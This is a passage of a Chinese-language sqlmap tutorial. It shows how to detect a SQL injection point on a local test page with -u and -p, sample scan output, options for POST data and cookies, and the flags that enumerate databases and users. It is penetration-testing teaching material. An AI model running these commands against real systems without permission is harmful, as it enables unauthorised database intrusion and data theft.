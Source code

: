 ```
C:\Users\asus> sqlmap
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1#pip}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

Usage: sqlmap [options]

sqlmap: error: missing a mandatory option (-d, -u, -l, -m, -r, -g, -c, -x, --wizard, --update, --purge-output or --dependencies), use -h for basic or -hh for advanced help

Press Enter to continue...
```

### 判断注入点

直接使用`-u`命令把 URL 给 SqlMap 会判断注入点。

```
sqlmap -u http://localhost/sql.php?id=
```

要注意这样 sqlmap 会判断所有的动态参数，要指定某个参数，使用`-p`：

```
sqlmap -u http://localhost/sql.php?id= -p id
```

结果：

```
[*] starting at 12:05:40

[12:05:40] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:05:40] [INFO] testing connection to the target URL
[12:05:41] [INFO] heuristics detected web page charset 'utf-8'
[12:05:41] [INFO] testing if the target URL is stable
[12:05:42] [INFO] target URL is stable
[12:05:44] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:05:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
```

sqlmap 报告了参数`id`可能存在注入。

如果参数在 HTTP 正文或者 Cookie 中，可以使用`--data <data>`以及`--cookie <cookie>`来提交数据。

### 获取数据库及用户名称

`--dbs`用于获取所有数据库名称，`--current-db`用于获取当前数据库，`--current-user`获取当前用户。
